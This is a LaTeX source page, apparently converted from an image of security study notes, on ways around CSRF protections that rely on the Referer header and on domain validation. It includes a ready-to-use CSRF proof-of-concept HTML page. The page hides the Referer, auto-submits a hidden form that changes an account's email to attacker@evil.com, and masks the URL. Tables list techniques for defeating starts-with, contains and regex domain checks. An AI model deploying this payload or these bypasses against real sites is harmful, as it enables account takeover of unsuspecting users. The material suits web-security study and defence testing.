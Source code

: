 \documentclass{article}
\begin{document}
\subsubsection*{1. Exploiting Absent Referer Header}
\begin{tabular}{>{\raggedright\arraybackslash}p{}>{\raggedright\arraybackslash}p{}}
    \toprule
    \textbf{Vulnerability} & \textbf{Exploitation Method} \\
    \midrule
    Weak validation & Applications validate Referer when present but skip validation when header is absent \\
    Bypass method & Cause browser to omit Referer header in CSRF request \\
    Implementation & Use \texttt{<meta name="referrer" content="never">} in HTML header \\
    \bottomrule
\end{tabular}

\textbf{Example CSRF PoC with Referer Suppression:}
\begin{lstlisting}[frame=single, basicstyle=\footnotesize\ttfamily]
<html>
  <head>
    <meta name="referrer" content="never">
  </head>
  <body>
    <form action="https://target.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com">
      <input type="submit" value="Submit">
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
\end{lstlisting}

\subsubsection*{2. Circumventing Domain Validation Logic}
\begin{tabular}{>{\raggedright\arraybackslash}p{}>{\raggedright\arraybackslash}p{}}
    \toprule
    \textbf{Validation Flaw} & \textbf{Bypass Technique} \\
    \midrule
    Starts-with validation & Place target domain as subdomain of attacker domain \\
    Contains validation & Include target domain in query string or path \\
    Regex weaknesses & Exploit poor regular expression patterns \\
    \bottomrule
\end{tabular}
\end{document}
